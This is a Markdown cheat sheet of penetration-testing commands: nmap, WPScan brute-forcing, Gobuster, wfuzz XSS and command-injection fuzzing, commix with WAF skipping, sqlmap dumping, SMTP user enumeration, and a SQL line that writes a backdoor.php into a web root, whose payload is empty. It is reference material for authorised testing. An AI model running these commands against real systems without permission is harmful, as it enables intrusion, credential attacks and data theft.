 # Common Tools
### Credit: S1ren@sirensecurity.io [Original Source](https://sirensecurity.io/blog/common/)

### Grep
```bash
grep -R "<search term>" <PATH>

```
### Nmap
```bash
nmap -p- -sT -sV -A $IP
nmap -p- -sC -sV $IP --open
nmap -p- --script=vuln $IP
```
### HTTP-Methods
```bash
nmap  --script http-methods --script-args http-methods.url-path='/website' 
      --script smb-enum-shares
nmap -p80,443 --script=http-methods  --script-args http-methods.url-path='/directory/goes/here'
```
### sed IPs:
```bash
grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])' FILE
```

## WPScan & SSL
```bash
wpscan --url $URL --disable-tls-checks --enumerate p --enumerate t --enumerate u
```
### WPScan Brute Forceing:
```bash
wpscan --url $URL --disable-tls-checks -U users -P /usr/share/wordlists/rockyou.txt
```

### Aggressive Plugin Detection:
```bash
wpscan --url $URL --enumerate p --plugins-detection aggressive
```

## Nikto with SSL and Evasion

```bash
nikto --host $IP -ssl -evasion 1
```
[See Evasion Modalities](https://www.kali.org/tools/nikto/)

## DNS/recon
```bash
dnsrecon –d yourdomain.com
```

### Gobuster directory
```bash
gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
```
### Gobuster files
```bash
gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt -k -t 30
```

### Gobuster for SubDomain brute forcing:
```bash
gobuster dns -d domain.org -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30
```
"WARNING: Make sure any DNS name you find resolves to an in-scope address before you test it"

### Extract IPs from a text file.
```bash
grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' nmapfile.txt
```

### Wfuzz XSS Fuzzing
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/XSS/XSS-BruteLogic.txt "$URL"
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/XSS/XSS-Jhaddix.txt "$URL"
```
### COMMAND INJECTION WITH POST DATA
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/command-injection-commix.txt -d "doi=FUZZ" "$URL"
```

### Test for Parameter Existence!
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt "$URL"
```

### AUTHENTICATED FUZZING DIRECTORIES
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404 -d "SESSIONID=value" "$URL"
```

### AUTHENTICATED FILE FUZZING:
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 404 -d "SESSIONID=value" "$URL"
```

### FUZZ Directories:
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"
```

### FUZZ FILES:
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
|
LARGE WORDS:
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt --hc 404 "$URL"
|
USERS:
wfuzz -c -z file,/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt --hc 404,403 "$URL"
```

### Command Injection with commix, ssl, waf, random agent.
```bash
commix --url="https://supermegaleetultradomain.com?parameter=" --level=3 --force-ssl --skip-waf --random-agent
```

### SQLMap
```bash
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
sqlmap -u $URL --threads=2 --time-sec=10 --level=4 --risk=3 --dump
```


## Social Recon
### theharvester
```bash
theharvester -d domain.org -l 500 -b google
```



## SMTP User Enumeration
### smtp-user-enum
```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/sr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t $IP
```

## Command Execution Verification - [Ping check]
```bash
sudo tcpdump -i any icmp -c10
```
```bash
#Check Network
netdiscover -r 0.0.0.0/24
```
```bash
#INTO OUTFILE D00R
SELECT “” into outfile “/var/www/WEROOT/backdoor.php”;
```
## LFI?
### PHP Filter Checks.
php://filter/convert.base64-encode/resource=

UPLOAD IMAGE?
GIF89a1

Chuxtr's rip-off of S1ren's common implies that you have seclists installed in the default Kali location '/usr/share/wordlists/seclists/'
https://github.com/danielmiessler/SecLists


